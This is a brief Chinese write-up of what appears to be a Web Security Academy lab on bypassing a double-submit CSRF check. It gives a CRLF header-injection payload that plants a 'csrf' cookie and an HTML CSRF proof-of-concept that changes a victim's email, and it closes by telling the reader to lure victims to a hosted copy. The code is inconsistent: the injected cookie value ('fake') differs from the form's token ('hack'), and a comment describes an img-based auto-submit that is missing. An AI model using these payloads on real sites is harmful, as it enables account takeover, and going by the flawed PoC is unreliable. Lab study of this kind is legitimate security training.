


cookie与post数据中同时存在csrf，

并且repeater验证只要post数据和cookie数据一致即可绕过验证。



只要cookie与post中的csrf令牌一致即可，发起请求


此时我们只要能够控制cookie的值，即可利用csrf漏洞


网站search接口存在cookie注入

payload:

```javascript
/?search=test%0d%0aSet-Cookie:%20csrf=fake
```

该paylod能注入cookie




此时可以构造利用代码：

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  
  //post数据提交email修改请求
    <form action="https://ac111fac1f531520803e02ba00ac0052.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="hack" />
      <input type="submit" value="Submit request" />
    </form>
    //img src错误自动提交post数据，并且访问src内容

  </body>
</html>
```

将该脚本部署到恶意网站上诱使受害者打开即可，修改用户email